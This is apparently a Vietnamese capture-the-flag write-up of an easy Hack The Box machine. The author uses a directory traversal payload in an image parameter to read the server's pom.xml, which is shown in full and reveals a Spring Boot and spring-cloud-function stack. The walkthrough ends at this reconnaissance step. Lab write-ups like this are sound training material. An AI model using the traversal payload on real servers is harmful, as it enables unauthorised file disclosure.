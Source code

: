 Đây là 1 bài machine trên htb có độ khó là easy  
Vào machine hầu hết các chức năng của web đều chưa xây dựng hết ngoại trừ chức năng upload *tại sao lại có chức năng upload trong 1 trang web cho thuê bộ nhớ đám mây nhỉ? có vẻ không hợp lý lắm :))*.Tiếp tục thì tôi dành ra khá nhiều thời gian để tìm tài liệu và thử upload vì nghĩ đó là lỗ hổng upload thế nên tôi đã quyết định lang thang trên forum để tìm một số gợi ý:  
-pom.xml : đó là một file cấu hình  
-và không nên tập trung vào phần upload :V bruh  
Đó là 1 số gợi ý tôi kiếm được ở phần đầu , phần sau thì tí nữa biết.  
+Tôi đã thử cho pom.xml vào argument(đối số) ?img=pom.xml nhưng nó không hoạt động nên tôi đã thử thêm lỗ hổng Directory traversal
```
?img=/../../../pom.xml
```
+Đoán xem, nó đã hoạt động
Trong đó có một số thông tin như:
+web viết bằng java
+framework là spring boot
+version java 11 và một số version của mấy cái khác
```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

